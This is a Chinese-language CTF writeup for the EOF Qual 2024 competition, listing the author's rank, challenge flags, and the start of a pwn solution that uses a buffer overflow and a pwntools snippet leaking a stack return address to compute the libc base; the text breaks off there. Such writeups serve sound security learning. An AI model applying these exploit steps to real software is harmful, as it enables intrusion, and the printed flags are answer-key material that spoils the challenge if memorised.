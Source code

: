 # EOF Qual 2024 Writeup

- 隊名：熱分陰榻境物
- 學號：`109550157`
- 名次：$11$
- 總分：$2913$

以下 Writeup 依照解題順序放出。

# Welcome

- $\text{Type}$: $\text{Misc}$
- $\text{Points}$: $100$
- $\text{Solved Time}$: January 5th, 9:00:22 AM
- $\text{Flag}$: `AIS3{W3lc0mE_T0_A1S5s_EOF_2o24}`

差一點搶到這題的首殺：

![image](https://hackmd.io/_uploads/HkZdCv_dp.png)

以下為解出 $\text{Flag}$ 的照片：

![image](https://hackmd.io/_uploads/SkOXpl_Op.png)

# jackpot

- $\text{Type}$: $\text{Pwn}$
- $\text{Points}$: $337$
- $\text{Solved Time}$: January 5th, 4:11:45 PM
- $\text{Flag}$: `AIS3{JUST_@_e45y_INT_OVeRflow_4nD_Buf_oveRFLOW}`

解這題的時候因為錯把 Stack 搬到髒地方，本來應該很簡單的題目被我解到有點挫折。
會那麼晚解出來的原因主要是做題策略，我先看了 $\text{Web}$ 和 $\text{Pwn}$ 的題目，在 DNS Lookup Final 卡太久了。

很可惜的是，這也是這場我唯一解出的 $\text{Pwn}$ 題，其他題長到我都不想看 QAQ。

以下正式解題過程。

一開始就有一個簡單的 BOF 可以飛到 `jackpot` 上，而且輸入數字又能讓我偷看 `Stack` 上的東西。

基本上 `main` 應該都是被某個 `libc` 的 function call 起來的，去 `Stack` 上偷的 return address 就會是 `libc` 上的某個位置。

輸入 `31`，就是 return address 的位置：

```python=
r.recvuntil(b"number: ")
r.sendline(b"31")

r.recvuntil(b"ticket 0x")
ticket = int(r.recvline().strip(), 16)

offset = 0x29D90
libc_base = ticket - offset
```
